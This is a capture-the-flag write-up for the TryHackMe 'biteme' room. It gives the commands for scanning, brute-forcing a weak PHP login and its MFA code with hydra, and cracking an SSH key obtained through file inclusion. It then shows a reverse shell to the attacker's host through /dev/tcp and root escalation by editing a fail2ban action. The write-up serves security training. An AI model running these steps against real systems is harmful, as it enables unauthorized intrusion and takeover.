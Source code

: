 # biteme

**Room Link:** [https://tryhackme.com/room/biteme](https://tryhackme.com/room/biteme)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (748).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (749).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (753).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (752).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (750).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (751).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/console -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x phps
```

<figure><img src="../../.gitbook/assets/image (754).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (757).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (755).png" alt=""><figcaption></figcaption></figure>

## **Finding username**

**Kali**

```
echo 6a61736f6e5f746573745f6163636f756e74 | xxd -r -p
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Recreating login

I merged configs.phps,  functions.php and index.phps into a index.php file. Made some modifications so that it could run  when hosted locally without the mfa part of the code so then I can try to bruteforce the credentials.

**index.php**

```
 <?php
session_start();
$showError = false;
define('LOGIN_USER', '6a61736f6e5f746573745f6163636f756e74'); 

function is_valid_user($user) {
    $user = bin2hex($user);
    return $user === LOGIN_USER;
}
// @fred let's talk about ways to make this more secure but still flexible
function is_valid_pwd($pwd) {
    $hash = md5($pwd);
    return substr($hash, -3) === '001';
} 


if (isset($_POST['user']) && isset($_POST['pwd'])) {
        if (is_valid_user($_POST['user']) && is_valid_pwd($_POST['pwd'])) {
            setcookie('user', $_POST['user'], 0, '/');
            setcookie('pwd', $_POST['pwd'], 0, '/');
            header('Location: mfa.php');
            exit();
        } else {
            $showError = true;
        }
  }  
?>

<!doctype html>
<html lang="en">
 <body class="text-center">
    <form action="index.php" method="post" class="form-signin" >
        <h1 class="h3 mb-3 font-weight-normal">Please sign in</h1>
        <input type="text" name="user" class="form-control" placeholder="Username" required>
        <input type="password" name="pwd" class="form-control" placeholder="Password" required>
        <button class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
        <?php if ($showError): ?><p class="mt-3 mb-3 text-danger">Incorrect details</p><?php endif ?>
    </form>
  </body>
</html>

```

**Kali**

```
echo MFA > mfa.php
php -S 127.0.0.1:81
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

## Bruteforce

**Kali**

```
hydra -l jason_test_account -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 81 http-post-form "/index.php:user=^USER^&pwd=^PASS^:F=Incorrect details"
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
Username: jason_test_account
Password: violet
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python -c "with open('output.txt', 'w') as file: [file.write(f'{str(i).zfill(4)}\n') for i in range(10000)]"
```

**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install
cd ..

thc-hydra/hydra -l jason_test_account -P output.txt $VICTIM http-post-form "/console/mfa.php:code=^PASS^:H=Cookie: PHPSESSID=hshqcs3n42r9qjs5b2850r9alt; user=jason_test_account; pwd=violet:F=Incorrect code" -T 64
```



<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (758).png" alt=""><figcaption></figcaption></figure>

## LFI

<figure><img src="../../.gitbook/assets/image (759).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (760).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh -i id_rsa jason@$VICTIM 
Password: 1a2b3c4d
```

<figure><img src="../../.gitbook/assets/image (761).png" alt=""><figcaption></figcaption></figure>



Lateral Movement

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (762).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo '#!/bin/bash' > shell.sh
echo 'sh -i >& /dev/tcp/$KALI/1337 0>&1' >> shell.sh
```

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
sudo -u fred ./shell.sh
```

<figure><img src="../../.gitbook/assets/image (763).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation&#x20;

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (764).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat /etc/fail2ban/jail.conf
```

<figure><img src="../../.gitbook/assets/image (768).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
ls -la /etc/fail2ban/action.d/iptables-multiport.conf
vi /etc/fail2ban/action.d/iptables-multiport.conf
```

<figure><img src="../../.gitbook/assets/image (765).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (770).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo /bin/systemctl restart fail2ban
```

Now we need to enter bad passwords until we've triggerd the ban action

**Kali**

```
ssh root@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (769).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
/bin/bash -p
whoami
```

<figure><img src="../../.gitbook/assets/image (771).png" alt=""><figcaption></figcaption></figure>



